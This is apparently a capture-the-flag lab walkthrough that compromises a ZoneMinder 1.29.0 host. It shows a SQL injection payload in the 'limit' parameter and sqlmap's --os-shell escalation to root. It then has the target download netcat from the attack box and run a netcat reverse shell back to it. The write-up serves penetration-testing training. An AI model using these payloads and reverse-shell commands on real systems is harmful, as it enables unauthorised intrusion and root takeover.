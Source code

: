 ## Enumeration

### Nmap

We'll start off with an `nmap` scan against all TCP ports.

```
kali@kali:~$ sudo nmap -p- 192.168.120.138
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 09:27 EDT
Nmap scan report for 192.168.120.138
Host is up (0.032s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3305/tcp open  odette-ftp
8080/tcp open  http-proxy
```

### Dirb

The websites on ports 80 and 8080 aren't serving anything interesting. Navigating to [http://192.168.120.138:3305/](http://192.168.120.138:3305/), we are presented with a default Apache web page. Let's try to brute-force hidden directories of this website using `dirb` with the **/usr/share/wordlists/dirb/big.txt** wordlist.

```
kali@kali:~$ dirb http://192.168.120.138:3305 /usr/share/wordlists/dirb/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Jun 19 11:32:12 2020
URL_BASE: http://192.168.120.138:3305/
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://192.168.120.138:3305/ ----
+ http://192.168.120.138:3305/cgi-bin/ (CODE:403|SIZE:282)                                                                
==> DIRECTORY: http://192.168.120.138:3305/javascript/                                                                    
+ http://192.168.120.138:3305/server-status (CODE:403|SIZE:282)                                                           
==> DIRECTORY: http://192.168.120.138:3305/zm/                                                                            
                                                                                                                          
---- Entering directory: http://192.168.120.138:3305/javascript/ ----
^C> Testing: http://192.168.120.138:3305/javascript/error-pages                                                           
kali@kali:~$
```

Navigating to the discovered **/zm/** directory (http://192.168.120.138:3305/zm/), we are presented with a banner for the ZoneMinder CCTV monitoring software.

```
ZoneMinder Console - Running - default v1.29.0
```

This version of the software is vulnerable to [SQL injection](https://www.exploit-db.com/exploits/41239) in the `limit` POST variable.

## Exploitation

### SQL Injection Vulnerability

Let's configure our web browser to use Burp proxy. We'll visit the [default page](http://192.168.120.138:3305/zm/), click on **Add New Monitor**, and then click **Save**. We'll capture the POST request in our proxy and send it to the Repeater tab.

To validate the PoC, let's replace the body of the request with the following:

```
view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
```

Here's our request:

```
POST /zm/index.php HTTP/1.1
Host: 192.168.120.138:3305
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.120.138:3305/zm/?view=monitor
Content-Type: application/x-www-form-urlencoded
Content-Length: 1693
Connection: close
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=sats1ojubp1fh24t0rg842aim0
Upgrade-Insecure-Requests: 1

view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
```

Sending this request to the server creates a five-second pause which confirms the vulnerability. This is easily exploitable with `sqlmap` or a similar tool.

### SQLMap

Let's replace the body of the request with the following:

```
view=request&request=log&task=query&limit=100
```

We'll send that request to the server to make sure we observe an immediate 200 OK response. Next, we'll right-click the request and save it to **post.txt**.

The target system has been misconfigured to use a DBA user for the application's interactions with the MySQL database. In addition, the database was misconfigured to run with root privileges. We can use `sqlmap` to automate the exploitation of this SQL injection vulnerability and obtain root privileges.

Although this might take some time depending on our connection (5-20 minutes), this should result in a complete compromise of the operating system.

```
kali@kali:~$ sqlmap -r post.txt --dbms mysql --os-shell
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.6#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

...

it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] n
[13:35:06] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'

...

[13:35:19] [INFO] testing for SQL injection on POST parameter 'limit'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y

...

[13:37:06] [INFO] checking if the injection point on POST parameter 'limit' is a false positive
POST parameter 'limit' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2030 HTTP(s) requests:
---
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: view=request&request=log&task=query&limit=100;SELECT SLEEP(5)#
---

...

[13:37:27] [INFO] testing if current user is DBA
[13:37:27] [INFO] fetching current user
[13:37:27] [INFO] retrieved: 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[13:37:49] [INFO] adjusting time delay to 1 second due to good response times
root@localhost

what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 2
[13:40:02] [INFO] checking if UDF 'sys_exec' already exist
[13:40:02] [INFO] checking if UDF 'sys_eval' already exist
[13:40:02] [INFO] detecting back-end DBMS version from its banner
[13:40:02] [INFO] retrieved: 5.7.30
[13:41:39] [INFO] retrieving MySQL plugin directory absolute path
[13:41:39] [INFO] retrieved: /usr/lib/mysql/plugin/
[13:47:36] [INFO] retrieved: 8040
[13:48:09] [INFO] the local file '/tmp/sqlmap98eauib64777/lib_mysqludf_sys1h7_1m42.so' and the remote file '/usr/lib/mysql/plugin/libsyuoc.so' have the same size (8040 B)
[13:48:09] [INFO] creating UDF 'sys_exec' from the binary UDF file
[13:48:10] [INFO] creating UDF 'sys_eval' from the binary UDF file
[13:48:10] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[13:48:10] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
[13:48:24] [INFO] retrieved: root
command standard output: 'root'
os-shell> 
```

### Reverse Shell

We can utilize this UDF created by `sqlmap` to obtain a full reverse shell on the target. Let's start a Netcat listener on port 3305. We'll also start a python web server on port 80 and host our copy of the Netcat binary.

```
kali@kali:~$ which nc
/usr/bin/nc
kali@kali:~$ cp /usr/bin/nc .
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

We can now download the Netcat binary to the target machine and make it executable.

```
os-shell> wget http://192.168.118.3/nc -O /tmp/nc
do you want to retrieve the command standard output? [Y/n/a] n
os-shell> chmod 777 /tmp/nc
do you want to retrieve the command standard output? [Y/n/a] n
os-shell>
```

Finally, we'll use the binary to connect back to our attack machine on port 3305.

```
os-shell> /tmp/nc 192.168.118.3 3305 -e /bin/bash
do you want to retrieve the command standard output? [Y/n/a] n

```

Back in our listener, we are presented with a root shell:

```
kali@kali:~$ nc -lvp 3305
listening on [any] 3305 ...
192.168.120.138: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.138] 49542
id
uid=0(root) gid=0(root) groups=0(root)
```

ALWAYS CHMOD THE BINARY BEFORE RUNNING!